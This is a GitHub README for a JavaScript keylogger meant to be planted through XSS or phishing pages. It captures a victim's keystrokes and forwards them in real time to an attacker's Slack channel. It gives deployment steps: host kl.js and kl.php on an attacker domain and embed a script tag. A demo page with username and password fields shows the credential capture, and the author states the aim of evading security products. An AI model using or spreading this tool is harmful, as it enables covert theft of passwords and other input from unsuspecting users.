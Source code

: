 # JS_KeyLogger_to_Slack
To be used with XSS or Phishing to Get Real-Time Keyboard Input Without Waiting for or Controlling Form Submission!

# Description
I wanted to improve upon my XSS API by adding support for capturing all keystrokes by the end user and sending them to a Slack channel for real time monitoring.  This allows for a quicker response to phishing attacks and more information than what's provided by POSTing an HTML form.  It's also more simple that BeEF so it hopefully won't get picked up by any security products!  Because we don't want to flood the Slack Channel or API by submitting each character at a time, we wait until the "Enter/Return" key is pressed or at Mouse click.  I figure this is most likely after a user is finished entering data into an input field somewhere on the page.

# Instructions

Simply host the Keylogger client-side JavaScript (kl.js) on a webserver that's publicly accessible, or embed it directly within your HTML.  If hosting it, simply call it like you would any JS with `<script src="https://YOUR_DOMAIN_HERE/kl.js"></script>`.

Host the Keylogger server-side PHP API (kl.php) on your web server and be sure to edit the variables to point to your Slack Channel via a Webhook.

# Demo

Test it out with something as simple as this : 

```<HTML>
<BODY>
<SCRIPT SRC="https://YOUR_DOMAIN_HERE/kl.js">
</SCRIPT>
<CENTER>
<H2>JS Phishing/XSS Keylogger to Slack!</H2>
<B>Note: </B>Try typing anywhere and then click the mouse or hit Enter/Return on your keyboard
<BR><BR>
<TABLE>
<TR><TH>Username</TH><TH>Pass</TH></TR>
<TR><TD><INPUT TYPE="text" VALUE="" NAME="User"></TD><TD><INPUT TYPE="password" VALUE="" NAME="Pass"></TD></TR>
</TABLE>
<BUTTON TYPE="button">SUBMIT</BUTTON>
</CENTER>
</BODY>
</HTML>```

<p align="center"><img align="center" width="600" alt="Client Example" src="https://s22.postimg.cc/txux5hial/Capture.png"></p>

<p align="center"><img align="center" width="600" alt="Watching in Slack" src="https://s22.postimg.cc/q1hl9i50t/Capture2.png"></p>
